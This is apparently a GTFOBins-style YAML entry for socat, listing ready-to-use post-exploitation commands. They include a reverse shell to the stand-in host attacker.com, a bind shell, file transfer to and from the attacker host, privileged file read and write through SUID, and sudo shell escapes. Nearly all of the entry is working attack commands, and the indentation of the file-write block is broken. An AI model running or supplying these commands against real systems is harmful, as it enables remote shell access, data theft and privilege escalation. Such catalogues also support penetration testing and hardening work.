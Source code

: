 ```yaml
---
functions:
  shell:
    - description: The resulting shell is not a proper TTY shell and lacks the prompt.
      code: |
        socat stdin exec:/bin/sh
  reverse-shell:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
  bind-shell:
    - description: Run ``socat FILE:`tty`,raw,echo=0 TCP:target.com:12345`` on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        socat TCP-LISTEN:$LPORT,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
  file-upload:
    - description: Run ``socat -u tcp-listen:12345,reuseaddr open:file_to_save,creat`` on the attacker box to collect the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        socat -u file:$LFILE tcp-connect:$RHOST:$RPORT
  file-download:
    - description: Run ``socat -u file:file_to_send tcp-listen:12345,reuseaddr`` on the attacker box to send the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_save
        socat -u tcp-connect:$RHOST:$RPORT open:$LFILE,creat
  file-read:
    - description: Read local files from the system. If the SUID bit is set this can be used to read privileged local files.
      code: |
        LFILE=file_to_read
        socat -u "file:$LFILE" -
  file-write:
    - description: Write to a local file on the system. If the SUID bit is set this can be used to write to privileged local files.
      code: |
      LFILE=file_to_write
      socat -u 'exec:echo DATA' "open:$LFILE,creat"
  sudo:
    - description: The resulting shell is not a proper TTY shell and lacks the prompt.
      code: |
        sudo socat stdin exec:/bin/sh
  limited-suid:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        ./socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
---
```

